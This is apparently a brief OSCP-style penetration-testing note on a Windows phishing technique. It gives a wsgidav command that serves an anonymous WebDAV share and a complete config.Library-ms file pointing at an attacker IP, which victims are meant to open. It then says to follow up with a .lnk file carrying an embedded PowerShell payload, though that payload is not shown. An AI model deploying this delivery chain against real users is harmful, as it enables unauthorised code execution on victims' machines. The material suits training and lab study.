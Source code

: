 To have a location where a file can be put:
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /tmp/oscp/
```



The shortcut file will open the target directory in the `File Explorer` when double-clicked. From there, a `.lnk` can be used.
Name: `config.Library-ms`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.194</url>
<serialized></serialized>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
**Important note**: the file will only work if there is a *Newline + Carriage Return* (`0D0A`) instead of just a newline. To fix this, use `unix2dos`.
From this point, a `.lnk` file can be used with an embedded Powershell payload.